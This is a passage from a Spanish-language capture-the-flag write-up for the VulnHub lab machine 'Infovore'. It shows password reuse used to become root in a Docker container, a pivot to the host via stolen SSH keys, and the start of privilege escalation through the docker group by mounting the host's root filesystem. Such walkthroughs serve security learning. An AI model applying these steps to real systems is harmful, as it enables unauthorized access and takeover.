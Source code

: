 Intento conectarme pero al parecer no puedo añadir la IP al archivo `known_hosts`. Después de probar un rato encuentro que la contraseña se reutiliza para el usuario root del contenedor.

Tenemos segunda flag.

```bash
root@e71b67461f6c:~# cat /root/root.txt
FLAG{Congrats_on_owning_phpinfo_hope_you_enjoyed_it}

And onwards and upwards!
```

Una vez como root en el contenedor, tenemos en la ruta `/root/.ssh` otro par de claves SSH. Vemos en la clave pública que pertenecen al usuario **admin** de la máquina host.

```bash
root@e71b67461f6c:~/.ssh# ls -la
total 20
drwx------ 2 root root 4096 Jun 23  2020 .
drwx------ 4 root root 4096 Sep  4 08:42 ..
-rw------- 1 root root 1766 Jun 22  2020 id_rsa
-rw-r--r-- 1 root root  401 Jun 22  2020 id_rsa.pub
-rw-r--r-- 1 root root  222 Jun 23  2020 known_hosts
root@e71b67461f6c:~/.ssh# cat id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDN/keLDJowDdeSdHZz26wS1M2o2/eiJ99+acchRJr0lZE0YmqbfoIo+n75VS+eLiT03yonunkVp+lhK+uey7/Tu8JsQSHK1F0gci5FG7MKRU4/+m+0CODwVFTNgw3E4FKg5qu+nt6BkBThU3Vnhe/Ujbp5ruNjb4pPajll2Pv5dyRfaRrn0DTnhpBdeXWdIhU9QQgtxzmUXed/77rV6m4AL4+iENigp3YcPOjF7zUG/NEop9c1wdGpjSEhv/ftjyKoazFEmOI1SGpD3k9VZlIUFs/uw6kRVDJlg9uxT4Pz0tIEMVizlV4oZgcEyOJ9NkSe6ePUAHG7F+v7VjbYdbVh admin@192.168.150.1
```

Nos loguemos mediante SSH y tenemos shell en la máquina host como **admin**.

![](@assets/VulnHub/infovore/user.png)

Tenemos tercera flag.

```bash
admin@infovore:~$ cat /home/admin/admin.txt
FLAG{Escaped_from_D0ck3r}
```

# Escalada de privilegios con docker

Vemos de primeras con `id` que estamos en el grupo `docker`. Lo que significa que podemos manipular y gestionar contenedores en la máquina.

```bash
admin@infovore:~$ id
uid=1000(admin) gid=1000(admin) groups=1000(admin),999(docker)
```

Para escalar privilegios perteneciendo al grup `docker` es muy sencillo, simplemente hay que desplegar un contenedor desde una imagen cualquiera con la raíz del sistema montada a este.

```bash
admin@infovore:~$ docker images -a
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
<none>              <none>              2b60cdccf518        3 years ago         428MB
theart42/infovore   latest              40de379c5116        3 years ago         428MB
<none>              <none>              f44ca16c21f7        3 years ago         428MB
<none>              <none>              8163972900d5        3 years ago         428MB
<none>              <none>              7a399b907ce9        3 years ago         420MB
<none>              <none>              02c0c04dfa72        3 years ago         420MB
<none>              <none>              31dfc99fbf7e        3 years ago         420MB
<none>              <none>              77c1bf5b4475        3 years ago         414MB
```
